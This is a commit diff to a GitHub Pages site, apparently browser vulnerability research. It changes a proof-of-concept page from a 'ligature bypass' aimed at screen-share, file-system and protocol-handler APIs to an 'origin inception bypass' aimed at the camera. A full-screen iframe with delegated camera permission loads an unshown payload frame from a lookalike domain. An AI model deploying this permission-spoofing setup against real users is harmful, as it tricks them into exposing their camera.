

Before and after one commit to googlelogo-security/googlelogo-security.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,34 +2,34 @@
 <html>
 <head>
 <style>
-html, body { font-family: sans-serif; overflow: hidden; }
-#instructions { text-align: center; margin-top: 50px; font-size: 1.5em; user-select: none; font-weight: bold;}
-#frame { position: absolute; top: 0; left: 0; width: 100vw; height: 100vh; z-index: 1; border: 0; }
-#variations { padding: 1em; border-radius: 8px; position: relative; z-index: 2; width: fit-content; margin: 20px auto; border: 1px solid #999; background: white; }
-li { margin: 10px 0; font-size: 1.2em; }
+html, body { font-family: sans-serif; overflow: hidden; background: #f8f9fa; }
+#instructions { text-align: center; margin-top: 100px; font-size: 1.5em; font-weight: bold; }
+#frame {
+    position: absolute;
+    top: 0; left: 0;
+    width: 100vw; height: 100vh;
+    z-index: 1; border: 0;
+}
+.box {
+    position: relative; z-index: 2; width: fit-content; margin: 20px auto;
+    padding: 15px; border: 2px solid #d93025; border-radius: 8px; background: #fff;
+}
 </style>
 <meta name="viewport" content="width=device-width, initial-scale=1">
 </head>
 <body>
-<h2 style="text-align: center;">PoC: Native UI Ligature Bypass (Real Vuln)</h2>
-<div id="variations">
-    <strong>The Forgotten APIs:</strong>
-    <ul>
-        <li><a href="?mode=screenshare">1. Screen Share (getDisplayMedia)</a></li>
-        <li><a href="?mode=filesystem">2. File System Access (showOpenFilePicker)</a></li>
-        <li><a href="?mode=protocol">3. Protocol Handler (registerProtocol)</a></li>
-    </ul>
+<div class="box">
+    <h2 style="color: #d93025; margin:0;">PoC: Origin Inception Bypass</h2>
+    <p style="margin: 5px 0 0 0;">Target: Camera API (getUserMedia)</p>
 </div>
-<p id="instructions">Click anywhere</p>
+<p id="instructions">👇 TAP ANYWHERE TO EXECUTE 👇</p>
 
-<iframe id="frame" allow="display-capture *; camera *; microphone *"></iframe>
+<!-- Akses Kamera wajib di-allow di iframe pertama -->
+<iframe id="frame" allow="camera *"></iframe>
 
 <script>
-var searchParams = new URLSearchParams(window.location.search);
-var mode = searchParams.get('mode') || 'screenshare';
-
-// Arahkan ke file payload. Pastikan diload dari domain googlelogoligature!
-frame.src = 'ligatures-perm-frame.html?mode=' + mode;
+// Pastikan URL ini mengarah ke file frame lu di domain ligatur!
+document.getElementById('frame').src = 'ligatures-perm-frame.html';
 </script>
 </body>
 </html>
```
